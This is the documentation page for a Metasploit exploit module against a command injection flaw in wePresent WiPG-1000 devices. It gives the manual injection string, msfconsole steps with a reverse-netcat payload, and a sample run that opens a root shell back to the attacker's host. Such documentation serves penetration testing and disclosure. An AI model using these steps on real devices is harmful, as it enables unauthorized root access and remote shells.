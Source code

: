 ## Vulnerable Application

  This module exploits a command injection vulnerability in the [wePresent WiPG-1000](http://wepresentwifi.com/wipg1000.html) device. A description of the exploited vulnerability is available in section 3.4 of [this advisory](https://www.redguard.ch/advisories/wepresent-wipg1000.txt).
  The latest vulnerable firmware version is 2.0.0.7. Newer versions can be downgraded to [the older firmware](http://www.wepresentwifi.com/assets/downloads/wipg1000/wePresent.1000.2.0.0.7.nad.zip).

  There is no complete list of vulnerable firmware versions, however the check method can reliably detect whether a device is vulnerable. The check method checks for the presence of the `rdfs.cgi` file and whether it contains the string `https://www.redguard.ch/advisories/wepresent-wipg1000.txt`. All known versions of this file on the device are vulnerable to this command injection.

  Manual exploitation would equate to browsing to the URI `http://<ip>/cgi-bin/rdfs.cgi` and entering the String `; command;` in the input field and submitting the form.

  Version 2.0.0.7 was confirmed vulnerable, and firmware 2.2.3.0 was released to fix the exploit.

## Verification Steps

  1. Make sure the device is running.
  2. Start msfconsole.
  3. Do: ```use exploit/linux/http/wipg1000_cmd_injection```
  4. Do: ```set payload cmd/unix/reverse_netcat```
  5. Do: ```set RHOST <ip>```
  6. Do: ```set LHOST <ip>```
  7. Do: ```exploit```
  8. You should get a shell.

## Options

  **PAYLOAD**

  The `generic`,`netcat` and `openssl` payload types are valid.

## Scenarios

### Firmware 2.0.0.7

  The following is an example run getting a shell:

  ```
  msf > use exploit/linux/http/wipg1000_cmd_injection 
  msf exploit(wipg1000_cmd_injection) > set payload cmd/unix/reverse_netcat
  payload => cmd/unix/reverse_netcat
  msf exploit(wipg1000_cmd_injection) > set RHOST 192.168.3.3
  RHOST => 192.168.3.3
  msf exploit(wipg1000_cmd_injection) > set LHOST 192.168.3.216
  LHOST => 192.168.3.216
  msf exploit(wipg1000_cmd_injection) > check
  [*] 192.168.3.3:80 The target appears to be vulnerable.
  msf exploit(wipg1000_cmd_injection) > exploit

  [*] Started reverse TCP handler on 192.168.3.216:4444 
  [*] Sending request
  [*] Command shell session 1 opened (192.168.3.216:4444 -> 192.168.3.3:50893) at 2017-04-20 16:11:48 +0200
  id

  uid=0(root) gid=0(root) groups=0(root),10(wheel)
  ```
